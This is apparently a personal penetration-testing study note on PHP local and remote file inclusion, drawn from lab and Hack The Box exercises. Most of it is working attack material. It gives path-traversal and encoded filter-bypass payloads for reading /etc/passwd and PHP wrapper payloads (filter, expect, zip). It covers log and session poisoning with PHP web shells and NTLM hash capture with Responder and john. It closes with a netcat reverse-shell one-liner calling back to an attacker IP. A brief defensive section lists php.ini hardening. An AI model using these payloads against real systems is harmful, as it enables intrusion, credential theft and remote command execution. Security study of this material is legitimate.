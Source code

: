 LFI and RFI attack range from sensitive information disclosure and Cross-site Scripting to Remote Code Execution
LFI we can  view or access the Local files on the server
in LFI we can access files on system like 
Example - http://example.com/?file=filename.php
or in worst case scenario upload a malicious   code to the server 	http://example.com/?file=../../uploads/evil.php
but even if we can upload we still don't know if it will be uploaded on same server that has the LFI exploit 

# LFI
more examples :
http://example.com/?file=../../../../etc/passwd
scripts can employ search and replace techniques to avoid path traversals. For example:

Code: php
$language = str_replace('../', '', $_GET['language']);
....//....//....//....//....//....//....//....//etc/passwd

In this scenario, input such as ../../../../../etc/passwd will result in the final string to be lang_../../../../../etc/passwd, which is invalid.
../../../../../etc/passwd
Bypass with URL Encoding
On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.

In the last example ....// can be URL encoded into %2e%2e%2e%2e%2f%2f.

The payload %2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd 
# wrappers

https://www.php.net/manual/en/wrappers.php.php

php://filter/read=/resource=/etc/passwd 
The following filters will convert the contents of /etc/passwd to base64 and ROT13, respectively.

  Source Code Disclosure via PHP Wrappers
php://filter/read=convert.base64-encode/resource=/etc/passwd
php://filter/read=string.rot13/resource=/etc/passwd

# log poisoning 
default apache log file path
/var/log/apache2/access.log
in old apache servers and nginx servers logs are readable by low priv users such as www 
and the logs contain everything about the request and their User-Agent  we can use the User-Agent string to add our #RCE  
```php

<?php phpinfo(); ?> # Check for php info



<?php system($_GET['cmd']); ?> 

<?php system($_REQUEST["cmd"]); ?>

<?php echo system($_REQUEST["cmd"]); ?>

&cmd=COMMAND

```
this gets executed by the server and we can run our code 
![[Pasted image 20210930225753.png]]
similar files to do that 
/var/log/nginx/access.log,
/var/log/sshd.log, 
/var/log/mail, 
and /var/log/vsftpd.log.
/proc/self/environ file can be included, which can be poisoned through the User-Agent string.
/var/log/httpd-access.log
# RCE through PHP Session Files
default path /var/lib/php/sessions/sess_SESSION
C:\Windows/Temp
we can try and poison the session file by adding stuff after the ?example=CODE
We can see that the session file contains language preference and the selected page. Let's try poisoning the value of page by sending something through the language parameter. First, request the below URL:

http://134.209.184.216:32415/index.php?language=session_poisoning
This should "poison" the session file and add session_poisoning to it. Let's include the session file once again to look at the contents.

http://134.209.184.216:32415/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

This time the session file contains session_poisoning instead of es.php, which confirms our ability to poison the session file. Next, let's write a PHP web shell to it using the following URL:

http://134.209.184.216:32415/index.php?language=
```
<?php system($_GET['cmd']); ?>
```
We can now include the session file and use the cmd parameter to execute operating system commands.

issue with this that we can only run a command only once 

# Expect Wrapper
The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.

http://blog.inlanefreight.com/index.php?language=expect://id

# base64 wrapper



```
php://filter/convert.base64encode/resource=

```



# Zip Wrapper
The zip wrapper can prove useful in combination with file uploads. If the website allows uploading arbitrary files, an attacker can upload a malicious zip file and include PHP code. 

The files in the zip archive can be referenced using the # symbol, which should be URL-encoded in the request
http://134.209.184.216:30489/index.php?language=zip://malicious.zip%23exec.php&cmd=id
# RFI

 RFI accrues when the allow_url_open setting (enabled by default) and allow_url_include setting have to be turned on
 then we can start a SMB or FTP or HTTP server on our machine and upload a shell code and execute commands by making the server connecting to us and get the shell 
 ![[Pasted image 20211001164936.png]]
 ![[Pasted image 20211001164956.png]]
 When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol.
 ![[Pasted image 20211001165028.png]]
 example :
 =http://OURIP/FILE
 =ftp://
 
 # phpinfo lfi
 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
 https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf
 ![[Pasted image 20211101190518.png]]

## Also in windows
If "allow_url_include" wrapper is set to "Off" by default, indicating that PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks
however php doesn't prevent smb connection so what the attacker can do is host a smb server with [[TCM-Security/AD/Post-Compromise Enum-attacks/Tools]] and because how windows works with smb 
NTLM is a collection of authentication protocols created by Microsoft
The NTLM authentication process is done in the following way :
1. The client sends the user name and domain name to the server.
2. The server generates a random character string, referred to as the challenge.
3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the server.
4. The server retrieves the user password (or equivilent)
5. The server uses the hash value retrieved from the security account database to encrypt the challenge string. The value is then compared to the value received from the client. If the values match, the client is authenticated.
so what the attacker can do is host smb server through responder and capture the NTLM hash and crack it 
**Example**
Hackthebox starting point **Responder** machine 

First we host our server with responder
```
sudo responder -I tun0 -dwv 

http://unika.htb/index.php?page=//10.10.16.42/somefile

echo "HASH" > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![[Pasted image 20221117223325.png]]
then we access our machine with the RFI we found 
![[Pasted image 20221117223409.png]]

 ![[Pasted image 20221117223448.png]]
 and we get the hash next we save the hash to a file 
 and crack it with john
 ![[Pasted image 20221117223509.png]]
 
# defending side 
 -  if the system() function is blocked, a log will be created about the blocked functionality being used when an attacker uses it.
 -  web applications should never display error messages to the website edit the php.ini file and verify: display_errors = Off is set
 -  To block system() in PHP, append the functions you want to block to the "disabled_functions" lines of PHP. A list of functions recommended blocking is: system, passthru, shell_exec, popen, proc_open, curl_exec, curl_multi_exec, parse_ini_file, show_source; allow_url_fopen and allow_url_include to Off.
 -  using a docker preventing them from accessing non-web related files.  
 -  if docker isnt an option  adding open_basedir = /var/www in the php.ini file
 -  using WAF Web Application Firewall 

## If you get local file inclusion for log, you can log poison the logs



```
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f') ?>